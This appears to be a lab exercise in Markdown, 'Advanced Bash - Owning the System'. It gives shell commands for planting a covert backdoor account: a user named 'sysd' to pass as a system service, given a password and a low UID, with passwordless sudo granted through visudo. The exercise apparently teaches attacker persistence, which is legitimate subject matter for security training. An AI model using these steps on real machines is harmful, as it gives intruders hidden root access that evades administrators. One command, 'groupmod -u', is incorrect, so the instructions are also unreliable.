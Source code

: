 # Advanced Bash - Owning the System

## Step 1: Shadow People
    1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
        • sudo useradd sysd

    2.	Give your secret user a password:
        • sudo passwd sysd

    3.	Give your secret user a system UID < 1000:
        • sudo usermod -u 400 sysd

    4.	Give your secret user the same GID:
        • sudo groupmod -u 400 sysd

    5.	Give your secret user full sudo access without the need for a password:
        • sudo visudo
    
![see photo](/images/picture1.png)